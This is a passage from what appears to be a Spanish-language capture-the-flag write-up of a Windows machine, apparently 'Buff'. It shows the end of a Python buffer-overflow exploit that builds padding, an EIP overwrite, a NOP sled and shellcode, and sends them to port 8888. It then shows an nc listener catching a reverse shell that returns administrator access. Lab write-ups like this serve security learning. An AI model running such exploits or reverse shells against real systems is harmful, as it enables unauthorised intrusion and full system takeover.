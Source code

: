 ```python


padding2 = b"D" * (2000 - len(padding1 + EIP + "\x90" * 20 + buf))

payload = padding1 + EIP + NOP + buf + padding2  

try:
        s=socket.socket(socket.AF_INET, socket.SOCK_STREAM)
        s.connect((target,8888))
        s.send(payload)
        print(" [+] Payload with {} bytes sent!".format(len(payload)))
except Exception as e:
        print("Something bad happened. The error code was: {}".format(sys.exc_value))

```
Para finalizar, solo es necesario ponerse a la escucha con `nc` en el puerto deseado y ejecutar el exploit.

```bash
nc -lvp 5555
listening on [any] 5555 ...
```
{: .nolineno}




```bash
python2.7 PoC_exploit_Win10_x64.py
 [+] Payload with 2000 bytes sent!
```
{: .nolineno}

Con este procedimiento, se logra obtener privilegios máximos dentro de la máquina víctima, comprometiendo el sistema como usuario con privilegios elevados.


```bash
nc -lvp 5555
listening on [any] 5555 ...
10.10.10.198: inverse host lookup failed: Host name lookup failure
connect to [10.10.14.14] from (UNKNOWN) [10.10.10.198] 49681
Microsoft Windows [Version 10.0.17134.1610]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\Windows\system32>

C:\Windows\system32>whoami
whoami
buff\administrator
```
{: .nolineno}

